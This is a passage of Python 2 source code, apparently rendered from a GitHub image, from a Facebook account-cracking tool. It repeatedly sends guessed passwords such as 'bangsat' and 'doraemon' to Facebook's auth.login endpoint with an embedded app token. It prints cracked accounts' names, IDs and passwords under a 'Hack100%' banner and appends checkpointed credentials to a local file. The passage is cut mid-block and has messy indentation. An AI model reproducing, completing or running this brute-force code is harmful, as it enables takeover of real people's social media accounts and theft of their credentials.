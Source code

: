 				                                                                           print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass7 + '\n'
				                                                                           cek = open("out/super_cp.txt", "a")
				                                                                           cek.write("ID:" +user+ " Pw:" +pass7+"\n")
				                                                                           cek.close()
				                                                                           cekpoint.append(user+pass7)           					
								                                       else:						
										                           pass8 = 'bangsat'											
			                                                                                   data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass8)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			                                                                                   q = json.load(data)												
			                                                                                   if 'access_token' in q:		
										                                   x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                                                                   z = json.loads(x.text)
				                                                                                   print '\x1b[1;91m[  ✓  ] \x1b[1;91mHack100%💉'											
				                                                                                   print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mName \x1b[1;91m    : \x1b[1;91m' + b['name']											
				                                                                                   print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mID \x1b[1;91m      : \x1b[1;91m' + user										
				                                                                                   print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mPassword \x1b[1;91m: \x1b[1;91m' + pass8 + '\n'											
				                                                                                   oks.append(user+pass8)
                                                                                                           else:
			                                                                                           if 'www.facebook.com' in q["error_msg"]:
				                                                                                       print '\x1b[1;93m[ ✖ ] \x1b[1;93mCheckpoint'
				                                                                                       print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b['name']
				                                                                                       print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				                                                                                       print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass8 + '\n'
				                                                                                       cek = open("out/super_cp.txt", "a")
				                                                                                       cek.write("ID:" +user+ " Pw:" +pass8+"\n")
				                                                                                       cek.close()
				                                                                                       cekpoint.append(user+pass8)   	
										                                   else:					
										                                       pass9 = 'doraemon'					
										                                       data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass9)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")				
										                                       q = json.load(data)				
										                                       if 'access_token' in q:		
		                                                                                                               x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                                                                               z = json.loads(x.text)
											                                       print '\x1b[1;91m[  ✓  ] \x1b[1;91mHack100%💉'			
											                                       print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mName \x1b[1;91m    : \x1b[1;91m' + b['name']			
											                                       print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mID \x1b[1;91m      : \x1b[1;91m' + user	
											                                       print '\x1b[1;92m[•⊱✿⊰•] \x1b[1;92mPassword \x1b[1;91m: \x1b[1;91m' + pass9 + '\n'			
											                                       oks.append(user+pass9)
                                                                                                                       else:
			                                                                                                       if 'www.facebook.com' in q["error_msg"]:
				                                                                                                   print '\x1b[1;93m[ ✖ ] \x1b[1;93mCheckpoint'
				                                                                                                   print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b['name']